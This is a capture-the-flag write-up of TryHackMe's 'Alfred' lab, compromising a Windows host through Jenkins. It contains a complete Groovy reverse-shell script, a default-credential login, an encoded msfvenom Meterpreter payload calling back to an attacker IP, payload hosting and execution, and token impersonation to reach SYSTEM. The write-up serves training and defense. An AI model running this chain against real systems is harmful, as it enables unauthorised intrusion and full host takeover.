# TryHackMe - Alfred

## Overview

**Room:** Alfred  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Focus:** Nmap enumeration, web reconnaissance, Jenkins authentication, Groovy script execution, reverse shells, Meterpreter, Windows token impersonation, process migration, and privilege escalation to `NT AUTHORITY\SYSTEM`.

---

## Attack Path

The compromise followed this chain:

```text
Nmap Host Discovery Bypass
        ↓
Identify Web Services on Ports 80 and 8080
        ↓
Discover Jenkins Login Page
        ↓
Log In Using admin:admin
        ↓
Access Jenkins Script Console
        ↓
Execute Groovy Reverse Shell
        ↓
Obtain Initial Shell as the Jenkins Service Account
        ↓
Retrieve user.txt
        ↓
Generate and Transfer a Meterpreter Payload
        ↓
Establish a Meterpreter Session
        ↓
Enumerate and Impersonate the Administrators Token
        ↓
Migrate to services.exe
        ↓
Obtain NT AUTHORITY\SYSTEM Access
        ↓
Retrieve root.txt
```

---

# 1. Initial Reconnaissance and Port Discovery

## 1.1. Bypass Host Discovery

I initially attempted several Nmap scan types against the target, including TCP connect, SYN, common-port, UDP, NULL, FIN, and Xmas scans. Each attempt returned the same message:

```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-10-27 04:13 UTC
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.10 seconds
```

This did not necessarily mean that the target was offline. Nmap performs host discovery before scanning ports by default, and the target may not respond to the discovery probes.

I therefore used `-Pn` to skip host discovery and treat the target as online.

```bash
nmap -Pn -p- -T4 <TARGET_IP>
```

**Command breakdown:**

- `-Pn`: Skip host discovery and scan the target as though it is online.
- `-p-`: Scan all TCP ports from 1 to 65535.
- `-T4`: Use a faster timing template.
- `<TARGET_IP>`: Replace this placeholder with the target's current IP address.

This time, Nmap returned three open ports:

```text
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```



The scan revealed two web-accessible services and a Remote Desktop Protocol (RDP) service. I decided to investigate both web services first because they were accessible over HTTP and could expose applications or authentication interfaces.

## 1.2. Enumerate the Discovered Ports

I performed a more detailed scan against the three open ports:

```bash
nmap -Pn -A -p 80,3389,8080 -T4 <TARGET_IP>
```

**Command breakdown:**

- `-Pn`: Skip host discovery.
- `-A`: Enable OS detection, version detection, default scripts, and traceroute where applicable.
- `-p 80,3389,8080`: Scan only the three ports discovered earlier.
- `-T4`: Use faster scan timing.

The results confirmed that ports 80 and 8080 hosted web services. This gave me two separate web applications to investigate.



---

# 2. Web Reconnaissance

## 2.1. Inspect the Website on Port 80

I opened the first web service in my browser:

```text
http://<TARGET_IP>
```

The website displayed an email address.




## 2.2. Enumerate Directories on Port 80

I used Gobuster to look for common directories and files that were not linked directly from the website.

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

**Command breakdown:**

- `dir`: Use directory and file enumeration mode.
- `-u`: Specify the target URL.
- `-w`: Specify the wordlist used to generate candidate paths.

The scan identified only `index.html` in the supplied results.



Since this scan did not reveal a useful additional endpoint, I moved on to the second web service.

## 2.3. Inspect the Website on Port 8080

I opened the second web service:

```text
http://<TARGET_IP>:8080
```

This page displayed a login form associated with Jenkins.



Jenkins is an automation server commonly used to build, test, and deploy software. Its administrative interface can be particularly sensitive because authorized users may be able to execute jobs, manage credentials, and run scripts on the server.

## 2.4. Enumerate Directories on Port 8080

I returned to the terminal and attempted another Gobuster scan.

The command is:

```bash
gobuster dir -u http://<TARGET_IP>:8080 -w /usr/share/wordlists/dirb/common.txt
```

The supplied notes report that the scan returned only `index.html`.



Directory enumeration did not reveal the path that led to initial access. I therefore returned to the login page and tested the authentication interface.

---

# 3. Initial Access Through Jenkins

## 3.1. Authenticate to Jenkins

I attempted to log in using common credentials. On my first attempt, the following credentials worked:

```text
Username: admin
Password: admin
```

This granted access to the Jenkins dashboard.

The homepage displayed several available options:

```text
New Item
People
Build History
Manage Jenkins
My Views
Lockable Resources
Credentials
New Views
```



The successful login indicated that Jenkins was configured with weak default credentials. This provided an authenticated entry point to the administrative functionality.

## 3.2. Locate the Script Console

I opened **Manage Jenkins** and examined the available administrative settings. I found the Script Console feature, described as a tool for executing scripts for administration, troubleshooting, and diagnostics.

The console explained that it accepted Groovy scripts and that `println` could be used to display results.

Because Groovy is the scripting language supported by this console, and because the feature executes scripts on the Jenkins server, access to it can provide substantial control over the underlying host.

## 3.3. Prepare the Groovy Reverse Shell

I researched Groovy reverse-shell examples and found the following public reference:

[Groovy reverse-shell example by frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)



The script used in the supplied notes was:

```groovy
String host = "localhost";
int port = 8044;
String cmd = "cmd.exe";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {
    while (pi.available() > 0) so.write(pi.read());
    while (pe.available() > 0) so.write(pe.read());
    while (si.available() > 0) po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
}
p.destroy();
s.close();
```


The script starts a Windows command interpreter and connects its input and output streams to a TCP socket.

The important variables are:

- `host`: The machine the script connects back to.
- `port`: The TCP port used for the connection.
- `cmd`: The Windows command interpreter to start.
- `ProcessBuilder`: Starts the command process.
- `Socket`: Establishes the network connection.
- The input/output streams: Forward commands and their results between the network connection and the Windows shell.

The supplied script initially used `localhost`. That address refers to the machine running Jenkins, not the attacking machine. I replaced it with my attacking machine's reachable IP address.



## 3.4. Start the Listener and Execute the Script

I opened another terminal and started a Netcat listener on port `8044`:

```bash
nc -lvnp 8044
```

The listener waited for Jenkins to establish the reverse connection.

I then pasted the modified Groovy script into the Jenkins Script Console and executed it.

Because the Jenkins process initiated the connection back to my attacking machine, the listener received a shell connected to the Windows command interpreter.



### Finding

**Jenkins administrative access allowed server-side script execution**

Weak credentials allowed access to Jenkins, and the Script Console provided the ability to execute Groovy code on the server. This combination enabled the initial reverse shell.

### Vulnerability

**Weak Jenkins credentials and excessive administrative capability**

The `admin:admin` credentials provided access to sensitive administrative functionality. An attacker who obtains access to a Jenkins account with Script Console permissions can potentially execute commands under the security context of the Jenkins process.

---

# 4. Retrieve the User Flag

After obtaining the initial shell, I navigated to Bruce's Desktop:

```cmd
cd C:\Users\bruce\Desktop
```

I listed the files and read the user flag:

```cmd
dir
type user.txt
```

The `type` command displays the contents of a text file in Windows Command Prompt.

The supplied notes confirm that the user flag was retrieved, but the actual flag value is not included.



The initial shell provided access to the user flag. The next objective was to obtain a more capable Meterpreter session so that I could enumerate and use Windows access tokens.

---

# 5. Upgrade the Shell to Meterpreter

## 5.1. Generate the Meterpreter Payload

I opened a new terminal and generated a Windows Meterpreter reverse-TCP executable using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<ATTACKER_IP> LPORT=4444 -f exe -o alfred-shell.exe
```

**Command breakdown:**

- `-p windows/meterpreter/reverse_tcp`: Selects a Windows Meterpreter reverse-TCP payload.
- `-a x86`: Targets the 32-bit x86 architecture.
- `--encoder x86/shikata_ga_nai`: Applies the specified payload encoder.
- `LHOST=<ATTACKER_IP>`: Sets the attacker's reachable IP address.
- `LPORT=4444`: Sets the callback port.
- `-f exe`: Generates a Windows executable.
- `-o alfred-shell.exe`: Saves the payload to the specified filename.

The encoder does not guarantee that a payload will evade antivirus or other security controls. The important requirement for this workflow was to generate a Windows executable with the correct callback configuration.



## 5.2. Host the Payload

I started a Python HTTP server from the directory containing `alfred-shell.exe`:

```bash
python3 -m http.server 8000
```

This allowed the Windows machine to retrieve the executable over HTTP.

The supplied notes do not contain the actual command used in the initial shell to download the file. The intended operation was to retrieve `alfred-shell.exe` from the attacker's HTTP server, but the exact download command and its output were not recorded.

The server later returned a `200 OK` response, indicating that an HTTP request successfully retrieved a resource from the server.



## 5.3. Configure the Metasploit Multi-Handler

In another terminal, I launched Metasploit:

```bash
msfconsole -q
```

I selected the generic multi-handler:

```text
use exploit/multi/handler
```

I configured it to match the generated payload:

```text
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ATTACKER_IP>
set LPORT 4444
```

The multi-handler listens for incoming connections from payloads that connect back to the attacking machine.

The payload and handler must use the same payload type, callback IP, and callback port. If these settings do not match, the connection may fail or the session may not initialize correctly.

I started the handler:

```text
exploit
```



## 5.4. Execute the Payload

After the payload was downloaded to the Windows machine, I used the following command from the standard Windows command shell:

```cmd
powershell "Start-Process 'alfred-shell.exe'"
```

This launches the executable as a separate process through PowerShell.

The original notes specifically state that the shell was a standard `cmd.exe` session rather than an interactive PowerShell prompt. Calling PowerShell explicitly allowed the command to start the downloaded executable.

The listener in Metasploit then received the reverse connection and established a Meterpreter session.



### Finding

**Meterpreter provided additional Windows post-exploitation capabilities**

The transition from a standard command shell to Meterpreter enabled the use of extensions and commands for token enumeration, token impersonation, and process migration.

---

# 6. Windows Token Impersonation

## 6.1. Load the Incognito Extension

Within the Meterpreter session, I loaded the Incognito extension:

```text
load incognito
```

Incognito provides functionality for enumerating and impersonating Windows access tokens that are available to the current process.

A Windows access token represents the security context of a user or group, including security identifiers and privileges. If an accessible token belongs to a more privileged security context, impersonating it may allow the current session to perform actions under that context.

## 6.2. Enumerate Available Group Tokens

I listed available group tokens:

```text
list_tokens -g
```

The output included the group token:

```text
BUILTIN\Administrators
```



The presence of a token is an important lead, but it does not automatically mean that impersonation will succeed or that the current process has become SYSTEM. The token's availability and resulting security context must be verified.

## 6.3. Impersonate the Administrators Token

I attempted to impersonate the Administrators group token:

```text
impersonate_token "BUILTIN\Administrators"
```




**Important distinction:** `BUILTIN\Administrators` identifies the local Administrators group; it is not itself the name `NT AUTHORITY\SYSTEM`. Successfully impersonating an administrative token does not, by itself, prove that the session has become SYSTEM.

I therefore used the next verification step to check the active identity.

## 6.4. Verify the Current Identity

I ran:

```text
getuid
```

Meterpreter's `getuid` command displays the user identity associated with the current session.



The original notes state that this confirmed SYSTEM access, but they do not include the command output. The expected output for a SYSTEM-level session would identify the account as `NT AUTHORITY\SYSTEM`.

The exact result should be retained in the final writeup if it is available in the screenshot.

---

# 7. Process Migration

## 7.1. Enumerate Running Processes

I ran the Meterpreter process-listing command:

```text
ps
```

This displayed the running processes and their process IDs (PIDs).

The notes identify `services.exe` as the process selected for migration, with a reported PID of `668`.



`services.exe` is the Windows Service Control Manager process. It normally runs as SYSTEM, making it a potentially useful process to inspect during post-exploitation.

However, a process's name or security context alone does not guarantee that migration will succeed. The architecture, permissions, and compatibility of the source and destination processes also matter.

## 7.2. Migrate to services.exe

I used the `migrate` command with the PID found in the process list:

```text
migrate 668
```

In Meterpreter, process migration moves the session into another running process. This may change the session's process context and can sometimes help maintain access or interact with a different security context.



The supplied notes describe the migration as successful. They also state that it resulted in full SYSTEM privileges.

For accuracy, process migration alone does not universally elevate privileges. The effective identity depends on the token and security context of the process and the session. The identity should be verified again after migration rather than inferred solely from the destination process name.

---

# 8. Retrieve the Root Flag

After the migration, I opened a standard Windows command shell from Meterpreter:

```text
shell
```

The shell opened in:

```text
C:\Windows\system32
```

I navigated to the directory containing the root flag:

```cmd
cd C:\Windows\System32\config
```

I then read the flag:

```cmd
type root.txt
```

The `type` command prints the contents of the file in Windows Command Prompt.



### Finding

**Access to a privileged Windows security context**

The documented sequence used token enumeration, token impersonation, and process migration to reach the final privileged shell. The `root.txt` file was then read from `C:\Windows\System32\config`.

### Verification Note

For a fully evidenced writeup, include the actual output of `getuid` after impersonation and, ideally, after migration. This distinguishes successful access to an Administrators group token from confirmed execution as `NT AUTHORITY\SYSTEM`.

---

# 9. Findings and Vulnerabilities

## 9.1. Finding: Weak Jenkins Credentials

The Jenkins login accepted the credentials:

```text
admin:admin
```

This provided access to the Jenkins administrative dashboard and exposed the Script Console.

**Impact:** Weak credentials can allow unauthorized access to administrative functions. Where the account can execute server-side scripts, the impact may include command execution under the Jenkins process's security context.

## 9.2. Vulnerability: Jenkins Script Console Exposure

The Script Console allowed an authenticated user to execute Groovy code directly on the server.

**How it was identified:** After logging in, I navigated to **Manage Jenkins** and found the Script Console feature.

**Impact:** If an attacker can access this functionality, they may be able to execute commands on the Jenkins host and obtain an interactive shell.

## 9.3. Finding: Initial Shell Access

The Groovy reverse shell established a connection back to the attacking machine on port `8044`.

**Impact:** The shell provided interactive command execution under the security context of the Jenkins process, allowing access to the user flag and further enumeration.

## 9.4. Finding: Available Administrators Group Token

Incognito listed the `BUILTIN\Administrators` group token as available for investigation.

**Impact:** An accessible privileged token can provide an opportunity to perform operations under a more privileged security context, depending on the token's properties and the process's permissions.

## 9.5. Finding: Process Migration to services.exe

The process list showed `services.exe` with PID `668`, and the notes describe migrating the Meterpreter session to that process.

**Impact:** Process migration can change the session's execution context and may help maintain a session within a different process. The resulting privileges must be confirmed independently.

---

# 10. Attack Chain Summary

The complete attack path documented in this writeup was:

```text
Nmap Scan with -Pn
        ↓
Discover Ports 80, 3389, and 8080
        ↓
Identify Jenkins on Port 8080
        ↓
Authenticate with admin:admin
        ↓
Access the Jenkins Script Console
        ↓
Execute a Groovy Reverse Shell
        ↓
Obtain a Windows Command Shell
        ↓
Retrieve user.txt
        ↓
Generate and Download a Meterpreter Payload
        ↓
Receive a Meterpreter Session
        ↓
Load Incognito and Enumerate Tokens
        ↓
Attempt Administrators Token Impersonation
        ↓
Verify the Session Identity
        ↓
Enumerate Processes and Migrate to services.exe
        ↓
Open a Windows Command Shell
        ↓
Retrieve root.txt
```

---

# 11. Key Vulnerabilities and Security Weaknesses

| Vulnerability or Weakness | Impact |
|---|---|
| Weak Jenkins credentials (`admin:admin`) | Allowed access to the Jenkins administrative interface. |
| Script Console accessible to the compromised account | Allowed Groovy execution on the Jenkins server and enabled the initial reverse shell. |
| Excessive administrative capability | Combined with weak credentials, exposed powerful server-side functionality to an attacker. |
| Accessible Windows access tokens | Provided a potential route to operate under a more privileged security context. |
| Insufficient restrictions on post-exploitation activity | The documented token and process operations were used to pursue higher privileges. |

The token and process entries describe the post-exploitation path observed in the notes. They should not be interpreted as proof of a separate Windows vulnerability without the corresponding permission or configuration evidence.

---

# 12. Lessons Learned

### 12.1. Use -Pn When Host Discovery Fails

Nmap may report that a host appears to be down when the target does not respond to host-discovery probes. Using `-Pn` skips that stage and allows port scanning to proceed. This is useful when the target is known to be active but does not respond to the discovery probes.

### 12.2. Enumerate Each Web Service Separately

Ports 80 and 8080 exposed different web services. Investigating each service independently helped identify the Jenkins login page on port 8080, which became the entry point for the attack.

### 12.3. Check Credentials Before Pursuing Complex Exploits

The weak `admin:admin` credentials provided access to Jenkins without requiring a more complicated web vulnerability. Authentication testing and configuration review can therefore be important parts of initial reconnaissance in an authorized assessment.

### 12.4. Understand the Impact of Administrative Consoles

Jenkins Script Console access is highly sensitive because it permits Groovy execution on the server. The security of the console depends on strong authentication, appropriate authorization, and restricting access to trusted administrators.

### 12.5. Know the Difference Between a Shell and Meterpreter

The initial Groovy reverse shell provided a standard Windows command interpreter. The Meterpreter session provided additional post-exploitation capabilities, including Incognito token operations and process migration. The transition required generating a compatible payload, transferring it to the target, and configuring a matching listener.

### 12.6. Do Not Confuse an Administrators Token with SYSTEM

The `BUILTIN\Administrators` group and `NT AUTHORITY\SYSTEM` are distinct security identities. Token impersonation may provide additional privileges, but the actual session identity should be checked using `getuid` or `whoami`.

### 12.7. Verify Privilege Escalation After Each Major Step

A successful command, token enumeration result, or process migration message does not by itself prove that the session is running as SYSTEM. Confirm the resulting identity before claiming that the final privilege-escalation objective has been achieved.

### 12.8. Record the Evidence Needed to Reproduce the Attack

A complete writeup should include the exact user and root flags, the missing payload-download command, the output of `getuid`, and the result of process migration. These details make the attack path easier to follow and separate observed results from assumptions.
